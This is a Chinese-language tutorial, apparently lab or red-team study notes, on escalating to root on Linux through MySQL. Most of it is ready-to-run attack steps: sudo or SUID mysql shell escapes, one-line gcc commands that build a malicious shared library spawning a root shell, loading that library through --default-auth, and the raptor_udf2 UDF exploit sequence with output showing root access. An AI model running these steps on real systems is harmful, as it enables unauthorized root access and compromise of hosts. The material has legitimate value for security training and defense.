


# mysql提权概念和背景

## MySQL 概念

它是一个数据库软件，跑在 Linux 上，作为一个服务（进程）在后台运行。

你可以把它理解成：
一个专门存数据的独立程序，有自己的账号、自己的密码、自己的权限。

MySQL 在Linux也也是基于命令行操作，也有root，但和 Linux 的 root 不是一回事


## 提权背景

当我们拿到了低权限 Shell，并且发现系统中存在 MySQL 服务时，通常有两种典型的提权思路：

一种是基于 `sudo` 权限配置不当的“秒杀”法

另一种是经典的 UDF (用户自定义函数) 提权法。


# 提权方法：

命令行层面提权：
-------------------------

**利用条件：**

* 目标机存在有效的 MySQL 服务端。

* 当前用户可以 `sudo mysql` (用`sudo -l`看能否免密执行)，或者 `/usr/bin/mysql` 被赋予了 `SUID` 权限 (`chmod u+s`)。

### 一键 Shell 逃逸 (可以用`\!`的情况)

MySQL 客户端内置了执行系统命令的功能（`\!`）。如果我们以 root 身份运行了 MySQL 客户端，直接调用 `/bin/sh` 即可。

连交互界面都不用进：

```bash
sudo mysql -e '\! /bin/sh'
```

_(如果是 SUID 权限，直接运行 `/usr/bin/mysql -e '\! /bin/sh -p'` 即可，注意 `-p` 参数用于保持 SUID 权限)_


### 动态链接库劫持 (用不了` \!`或者 需要输入密码)

有的服务器会通过一些外部手段严禁mysql去干一些越权的事，比如说用AppArmor 或 SELinux 限制或者开了个沙箱把`\!`禁了，或者 MySQL 要求强制输入密码而你不知道密码。那我们就要采取这种方式来提权


**原理：** MySQL 5.5 以上版本允许通过 `--default-auth` 参数指定一个外部的身份验证插件（`.so` 共享库文件）。我们可以自己写一个恶意的共享库，只要 MySQL 一加载它，就会立刻触发并弹出一个 Root Shell。这是大名鼎鼎的` --default-auth`漏洞

**利用：**

- **一句话编译恶意动态库：** 直接在靶机终端运行，它会在当前目录生成一个 `lib.so`：
  
  - sudo类型
    
    ```bash
    echo '__attribute__((constructor)) init() { execl("/bin/sh", "sh", 0); }' \
        | gcc -w -fPIC -shared -o lib.so -x c -
    ```
  
  - suid类型
    
    ```bash
    echo '__attribute__((constructor)) init() { setuid(0); setgid(0); execl("/bin/sh", "sh", "-p", 0); }' | gcc -w -fPIC -shared -o lib.so -x c -
    ```

- **触发库文件加载：** 使用 `--default-auth` 参数强行让 MySQL 去加载这个库（注意这里要用相对路径或绝对路径指向刚才生成的 `lib.so`）：
  
  ```bash
  sudo mysql --default-auth ./lib.so
  # 或者如果是 SUID 提权：
  /usr/bin/mysql --default-auth ./lib.so
  ```

`init()` 函数执行，拿到 Root Shell！
传统的 MySQL UDF（user defined function） 提权

----------------

**利用条件：**

1. 没有 `sudo` 也没有 `SUID`，但我们**拥有 MySQL root 用户的密码**（比如从网站源码里翻到的）。

2. MySQL 服务端本身是以系统 `root` 用户身份运行的。

3. `secure_file_priv` 为空（允许导出文件到任意目录）。

**原理：** UDF (用户自定义函数) 允许我们写 C 代码扩充 SQL 语句。我们把包含 `system()` 调用的恶意的 `.so` 文件传入插件目录，创建一个自定义 SQL 函数，然后用 SQL 语句执行系统命令。



这里选择哪个exp来打取决于靶机的linux系统号，具体用法写在1518.c注释里了（注意文件路径要和它的对应上）

```bash
 * Usage:
 * $ id
 * uid=500(raptor) gid=500(raptor) groups=500(raptor)
 * $ gcc -g -c raptor_udf2.c
 * $ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
 * $ mysql -u root -p
 * Enter password:
 * [...]
 * mysql> use mysql;
 * mysql> create table foo(line blob);
 * mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
 * mysql> create function do_system returns integer soname 'raptor_udf2.so';
 * mysql> select * from mysql.func;
 * +-----------+-----+----------------+----------+
 * | name      | ret | dl             | type     |
 * +-----------+-----+----------------+----------+
 * | do_system |   2 | raptor_udf2.so | function |
 * +-----------+-----+----------------+----------+
 * mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
 * mysql> \! sh
 * sh-2.05b$ cat /tmp/out
 * uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
 * [...]
 *
 * E-DB Note: Keep an eye on https://github.com/mysqludf/lib_mysqludf_sys
 *
 */
```

然后把文件传到靶机就不说了



上面的面板是靶机，左下角是我们运行cat 1518.c后的主机，要注意，除了拥有mysql密码，` secure_file_priv`字段也要为空，进入mysql后第一件事就是查这个字段

```bash
show variables like '%secure_file_priv%';
```

后面打的顺序就按照usage来就行了


# reference :

[「红队笔记」Linux提权精讲：演示1 - 服务漏洞利用提权，以MySQL-UDF提权为例_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV19s4y1D7Mt/)
